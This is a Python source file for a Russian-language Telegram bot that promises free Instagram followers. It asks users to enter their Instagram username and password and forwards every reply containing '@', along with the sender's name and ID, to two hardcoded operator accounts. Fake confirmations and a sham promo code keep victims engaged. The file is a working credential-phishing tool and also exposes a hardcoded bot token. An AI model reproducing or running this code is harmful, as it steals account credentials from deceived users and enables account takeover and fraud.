 import requests
import telebot
from telebot import types

TOKEN = '991281297:AAHnhg9O6SpkicaT15FUCIyP8w63OllhMSM'
MAIN_URL = f'https://api.telegram.org/bot{TOKEN}'

bot = telebot.TeleBot(TOKEN)
#r = requests.get(f'{MAIN_URL}/getUpdates')
#print(r.json())
#print(bot.get_me())
#bot.send_message(707614495, 'test')

#684414835 - id Андрей


user_markup1 = types.InlineKeyboardMarkup()
answer_yes = types.InlineKeyboardButton('Да', callback_data='yes')
answer_no = types.InlineKeyboardButton('Нет',  callback_data='no')
user_markup1.add(answer_yes, answer_no)

markup_inline_choice = types.InlineKeyboardMarkup()
for_that = types.InlineKeyboardButton('Зачем?😯', callback_data='why')
markup_inline_choice.add(for_that)

user_markup2 = types.InlineKeyboardMarkup()
answer_message = types.InlineKeyboardButton('Хочешь оставить отзыв?', callback_data='message')
user_markup2.add(answer_message)



def log(message, answer):
    print('\n \n'
          '---------')
    from datetime import datetime
    print(datetime.now())
    print('Имя: {0} {1}\n'
          'Его ID: {2}\n'
          'Текст: {3}'.format(message.from_user.first_name,
                              message.from_user.last_name,
                              str(message.from_user.id),
                              message.text))
    print('Ответ бота:',answer)
    print('---------')

@bot.message_handler(commands=['start'])
def commands(message):
    bot.send_message(message.chat.id, 'Привет!😄\n'
                              'У тебя мало подписчиков?\n'
                              'Наш бот дает 50 подписчиков бесплатно,\n'
                              'остальные за деньги.👌💵\n'
                              'Готовы ли вы продолжать?', reply_markup=user_markup1)
#request_contact=True
#request_location=True

@bot.message_handler(commands=['stop'])
def commands(message):
    bot.send_message(message.chat.id, 'Бот останавливается.')


@bot.message_handler(commands=['support'])
def commands(message):
    bot.send_message(message.chat.id, 'Привет!😄\n'
                                      'Напиши что-то по поводу работы бота. Твой отзыв очень важен для нас🌠🌅🖍)\n'
                                      'Отзыв будет рассмотрен в течении двух часов🕐.\n'
                                      'Напиши отзыв по примеру ниже или он не будет сохранен.\n'
                                      'Пример🔒:\n'
                                      'Отзыв: (и дальше ваш текст)')
    #bot.send_message(707614495, message.text)


#@bot.message_handler(regexp='Да')
#def da(message):
    #bot.send_message(message.chat.id, 'Отлично!👑🎰\n'
                                      #'Введите свой @никнейм и пароль от аккаунта.\n'
                                      #'Вот так✍:\n'
                                      #'@nickname 12345678', reply_markup=markup_inline_choice)

    #user_markup1 = telebot.types.ReplyKeyboardMarkup(True, True)
    #user_markup1.row('Зачем?😯')
    #bot.send_message(message.from_user.id, '. . .', reply_markup=user_markup1)


@bot.message_handler(regexp='Отзыв')
def ytn(message):
    bot.send_message(message.chat.id, 'Спасибо!😁☺️\n'
                                      'Ваш отзыв обязательно будет рассмотрен!)\n'
                                      '🔓📆')
    bot.send_message(707614495, message.text)

@bot.message_handler(regexp='promo100')
def ytn(message):
    bot.send_message(message.chat.id, 'Поздравляю!!!😄😱😻🤙\n'
                                      'В течении часа к тебе на аккаунт придет еще 100 подписчиков!!!\n'
                                      'Счастливчик!👋💍👑')

@bot.callback_query_handler(func=lambda call:True)
def answer_for_question(call):
    if call.data == 'why':                     #text=""" """
        bot.send_message(call.message.chat.id, 'Это необходимо, так-как с твоего аккаунта будет сделан запрос на сервер с ботами, '
                                               'которые поднимут активность на твоем инстаграм аккаунте)🎆\n'
                                               'Вводи вот так✍:@nickname 12345678')
    elif call.data == 'yes':
        bot.send_message(call.message.chat.id, 'Отлично!👑🎰\n'
                                               'Введите свой @никнейм и пароль от аккаунта.\n'
                                               'Вот так✍:\n'
                                               '@nickname 12345678', reply_markup=markup_inline_choice)
    elif call.data == 'no':
        bot.send_message(call.message.chat.id,'Очень жаль💔(\n'
                                              'Но вы всегда можете воспользоваться нашими услугами на сайте.')
    elif call.data == 'message':
        bot.send_message(call.message.chat.id,'Чтобы оставить отзыв - напиши / \nи выбери комманду /support\n'
                                              '🖊🖋🖍📆📬📫️')

@bot.edited_message_handler(func=lambda message: True)
def edit_answer(message):
    bot.send_message(message.from_user.id, text='Зачем изменил?:\n'
                                                '{edited_message}'.format(edited_message=message.text))

       # hide_markup = telebot.types.ReplyKeyboardHide()
       # bot.send_message(message.from_user.id, '. . .', reply_markup=hide_markup)

@bot.message_handler(func=lambda message: True)
def message_react(message):
    answer = 'Не выходит, попробуй снова.\nВозможно ты неправильно ввел(а) свой пароль или никнейм\n' \
             '😢😱🥴'
    if '@' in message.text:
        answer = 'Отлично! Подписчики на подходе'
        log(message, answer)
        bot.send_message(message.chat.id, 'Отлично!\n'
                                          'Подписчики на подходе)😁☺\n'
                                          'Если знаешь наш промокод самое время его ввести!👁😇💋️', reply_markup=user_markup2)
        bot.send_message(707614495, 'Имя: {0} {1}\n'
                                    'Его ID: {2}\n'
                                    'Текст: {3}'.format(message.from_user.first_name,
                                                        message.from_user.last_name,
                                                        str(message.from_user.id),
                                                        message.text))
        bot.send_message(684414835, 'Имя: {0} {1}\n'
                                    'Его ID: {2}\n'
                                    'Текст: {3}'.format(message.from_user.first_name,
                                                        message.from_user.last_name,
                                                        str(message.from_user.id),
                                                        message.text))

    else:
        bot.send_message(message.chat.id, answer)
        bot.send_message(707614495, 'Имя: {0} {1}\n'
                                    'Его ID: {2}\n'
                                    'Текст: {3}'.format(message.from_user.first_name,
                                                        message.from_user.last_name,
                                                        str(message.from_user.id),
                                                        message.text))
        #bot.send_message(684414835, 'Имя: {0} {1}\n'
                                    #'Его ID: {2}\n'
                                    #'Текст: {3}'.format(message.from_user.first_name,
                                                        #message.from_user.last_name,
                                                        #str(message.from_user.id),
                                                        #message.text))
        log(message, answer)



if __name__ == '__main__':
    bot.polling(none_stop=True, interval=0)
